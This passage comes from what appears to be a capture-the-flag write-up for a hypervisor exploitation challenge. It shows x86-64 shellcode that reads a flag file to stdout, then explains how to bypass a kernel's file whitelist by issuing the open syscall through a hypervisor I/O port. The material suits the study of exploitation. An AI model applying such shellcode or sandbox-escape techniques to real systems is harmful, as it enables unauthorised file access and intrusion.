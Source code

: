 ```nasm
syscall

; Read contents onto stack
mov    r9,rax
xor    rax,rax
mov    rdi,r9
mov    rsi,rsp
xor    rdx,rdx
mov    dl,0x40
syscall

; Write contents to stdout
xor    rax,rax
inc    al
xor    rdi,rdi
inc    rdi
mov    rsi,rsp
xor    rdx,rdx
mov    dl,0x40
syscall

jmp $
```

# Part 2 - II - 292pts
Now we had shellcode execution in the `user.elf` we needed to get the contents of the `flag2` file. Interestingly just changing our shellcode above to try and open the `flag2` file failed. After reversing `kernel.bin` it became clear that there was a file whitelist being enforced by the kernel on the `open` syscall, which included  `flag` but not `flag2`, therefore our attempts to open it were failing.

The kernel communicates with the hypervisor via writing to I/O ports. The exact I/O port number written to determines which function to call in the hypervisor. These port values were defined as `0x8000 + syscall number`. So by writing to port `0x8002` in the VM with `out dx, eax`, where `eax` points to the array of arguments for the syscall, the hypervisor will perform this `open` operation for us and return the result (which we can read with `in eax, dx`). 
